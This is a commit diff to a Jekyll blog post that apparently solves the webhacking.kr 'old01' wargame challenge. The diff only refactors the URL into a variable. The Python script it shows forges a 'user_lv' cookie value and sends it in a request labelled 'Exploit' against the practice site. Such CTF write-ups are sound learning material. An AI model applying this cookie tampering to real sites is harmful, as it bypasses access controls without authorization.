

Before and after one commit to bindon/bindon.github.io, a Jekyll site: the page built from _posts/Web Hacking KR/2019-11-27-old01.md, in a window 1280 px wide. Shown: the whole page at 63% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; formulas are drawn with MathJax 3.

Commit message:
Change url logic

````diff
--- a/_posts/Web Hacking KR/2019-11-27-old01.md
+++ b/_posts/Web Hacking KR/2019-11-27-old01.md
@@ -64,13 +64,16 @@
 print "[+] Login and get session"
 session = login.getSessionWithLogin()
 
+print "[+] Set URL"
+url = "https://webhacking.kr/challenge/web-01/"
+
 print "[+] Set cookies"
 cookies = {
     "user_lv": "5.5"
 }
 
 print "[+] Exploit"
-response = session.get("https://webhacking.kr/challenge/web-01/", cookies=cookies)
+response = session.get(url=url, cookies=cookies)
 
 print response.text
 ```
````
